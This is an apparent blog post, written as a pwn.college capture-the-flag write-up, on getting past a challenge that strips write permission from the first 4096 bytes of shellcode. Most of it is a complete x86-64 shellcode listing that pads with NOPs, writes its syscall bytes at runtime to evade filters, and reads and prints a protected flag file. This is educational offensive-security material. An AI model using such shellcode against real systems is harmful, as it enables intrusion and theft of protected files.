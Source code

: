 +++
title = 'No Write Permissions in Shellcode Begin'
date = 2023-09-22T14:50:16-04:00
tags = ["shellcoding", "challenge", "pwn.college"]
description = "In this post, I will explain how I bypassed no-write permissions in a simple shellcoding challenge"
draft = false
+++
A while ago i was solving this challenge from [pwn.college](https://pwn.college) in the `shellcoding` module, it's a pretty fun challenge to solve, where you need to think outside-of-the-box (a little).

This challenge remove write permissions in the first 4096 bytes of our `shellcode`, therefore we need to put 4096 bytes of garbage before we start the `shellcode`.

This sounds hard but luckily assembly makes it very easy for us to achieve this.

Here's a program i used to solve the challenge, note that it's exactly like the challenge i have shown at [[Writing Shellcode without Syscalls]], but this time the first 4096 bytes of the `shellcode` aren't written.
```nasm
.global _start
_start:
.intel_syntax noprefix
    .rept 4096
    nop
    .endr

    # prepare syscall
    mov byte ptr[rip+label], 0x0f
    mov byte ptr[rip+label+1], 0x05
    lea r9, [rip+label]

    # clear registers
    xor rbx, rbx
    xor rdx, rdx
    xor rsi, rsi
    xor rdi, rdi
    xor r10, r10

    # open flag file
    mov ebx, 0x67616c66
    shl rbx, 8
    mov bl, 0x2f
    push rbx
    mov rdi, rsp
    mov rax, 2
    call r9

label:
    .word 0x0000

    xor r9, r9
    # prepare next syscall
    mov byte ptr[rip+label2], 0x0f
    mov byte ptr[rip+label2+1], 0x05
    lea r9, [rip+label2]

    xor rsi, rsi
    xor r10, r10
    xor rdi, rdi
    xor rdx, rdx
    xor rbx, rbx
    # sendfile
    mov rdi,1
    mov rsi, rax
    mov r10, 100
    mov rax, 40
    call r9
label2:
    .word 0x0000

    xor r9, r9
    # prepare syscall
    mov byte ptr[rip+label3], 0x0f
    mov byte ptr[rip+label3+1], 0x05
    lea r9, [rip+label3]
    # exit
    xor rsi, rsi
    xor r10, r10
    xor rax, rax
    xor rdi, rdi
    mov rax, 60
    mov rdi, 5
    call r9

label3:
    .word 0x0000
```

We used the `.rept <value>` instruction and the `.endr` instruction which ends the repeat, basically like a loop and everything in-between will be repeated in the assembled program.

For example, the following code would write 4096 nops in our `shellcode`, resulting in a very long `shellcode` but effectively bypassing the required filters.
```nasm
.rept 4096
nop
.endr
```


